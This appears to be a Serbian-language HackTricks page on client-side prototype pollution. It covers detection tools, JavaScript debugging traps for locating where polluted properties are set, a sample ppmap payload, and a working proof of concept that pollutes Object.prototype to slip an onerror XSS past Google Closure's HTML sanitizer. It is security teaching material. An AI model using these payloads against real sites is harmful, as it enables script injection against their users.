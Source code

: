 # Client Side Prototype Pollution

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Otkrivanje korišćenjem automatskih alata

Alati [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **i** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) mogu se koristiti za **otkrivanje ranjivosti prototype pollution**.

Osim toga, možete koristiti i **browser ekstenziju** [**PPScan**](https://github.com/msrkp/PPScan) da **automatski** **skenirate** **stranice** koje **posećujete** u potrazi za ranjivostima prototype pollution.

### Debugiranje gde se koristi svojstvo <a href="#id-5530" id="id-5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
console.trace();
return 'test';
}})
```
{% endcode %}

### Pronalaženje osnovnog uzroka zagađenja prototipa <a href="#id-5530" id="id-5530"></a>

Kada je ranjivost zagađenja prototipa identifikovana pomoću bilo kog od alata, i ako kod nije previše složen, možete pronaći ranjivost pretraživanjem ključnih reči kao što su `location.hash`, `decodeURIComponent` ili `location.search` u Chrome Developer Tools. Ovaj pristup vam omogućava da precizno odredite ranjivi deo JavaScript koda.

Za veće i složenije kodne baze, jednostavan način za otkrivanje ranjivog koda uključuje sledeće korake:

1. Koristite alat za identifikaciju ranjivosti i dobijte payload dizajniran da postavi svojstvo u konstruktoru. Primer koji je pružio ppmap može izgledati ovako: `constructor[prototype][ppmap]=reserved`.
2. Postavite prekidnu tačku na prvoj liniji JavaScript koda koji će se izvršiti na stranici. Osvežite stranicu sa payloadom, zaustavljajući izvršavanje na ovoj prekidnoj tački.
3. Dok je izvršavanje JavaScripta pauzirano, izvršite sledeći skript u JS konzoli. Ova skripta će signalizirati kada je svojstvo 'ppmap' kreirano, pomažući u pronalaženju njegovog porekla:

```javascript
function debugAccess(obj, prop, debugGet=true){

var origValue = obj[prop];

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet)
debugger;
return origValue;
},
set: function(val) {
debugger;
origValue = val;
}
});

};

debugAccess(Object.prototype, 'ppmap')
```

4. Vratite se na karticu **Izvori** i odaberite "Nastavi izvršavanje skripte". JavaScript će nastaviti izvršavanje, a svojstvo 'ppmap' će biti zagađeno kao što se očekuje. Korišćenje pruženog isečka olakšava identifikaciju tačne lokacije gde je svojstvo 'ppmap' zagađeno. Pregledom **Steka poziva**, mogu se primetiti različiti stekovi gde se zagađenje dogodilo.

Prilikom odlučivanja koji stek treba istražiti, često je korisno ciljati stekove koji su povezani sa JavaScript bibliotekama, jer se često javlja zagađenje prototipa unutar ovih biblioteka. Identifikujte relevantni stek pregledanjem njegovog povezivanja sa bibliotečkim datotekama (vidljivo sa desne strane, slično kao na slici koja je pružena kao vodič). U scenarijima sa više stekova, kao što su oni na linijama 4 i 6, logičan izbor je stek na liniji 4, jer predstavlja početno javljanje zagađenja i time osnovni uzrok ranjivosti. Klikom na stek bićete usmereni na ranjiv kod.

![https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Pronalaženje skriptnih gedžeta

Gedžet je **kod koji će biti zloupotrebljen kada se otkrije ranjivost PP**.

Ako je aplikacija jednostavna, možemo **pretraživati** **ključne reči** poput **`srcdoc/innerHTML/iframe/createElement`** i pregledati izvorni kod kako bismo proverili da li vodi do izvršavanja JavaScript-a. Ponekad, pomenute tehnike možda neće pronaći gedžete. U tom slučaju, čisto pregledanje izvornog koda otkriva neke lepe gedžete kao u sledećem primeru.

### Primer pronalaženja PP gedžeta u kodu biblioteke Mithil

Proverite ovaj članak: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Rekompilacija payloada za ranjive biblioteke

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## Bypass HTML sanitizera putem PP

[**Ovo istraživanje**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) prikazuje PP gedžete koje treba koristiti za **zaobilaženje sanitizacije** koju pružaju neke biblioteke za HTML sanitizaciju:

* **sanitize-html**

<figure><img src="../../../.gitbook/assets/image (668).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

* **dompurify**

<figure><img src="../../../.gitbook/assets/image (669).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

* **Closure**

```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```

## Reference

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

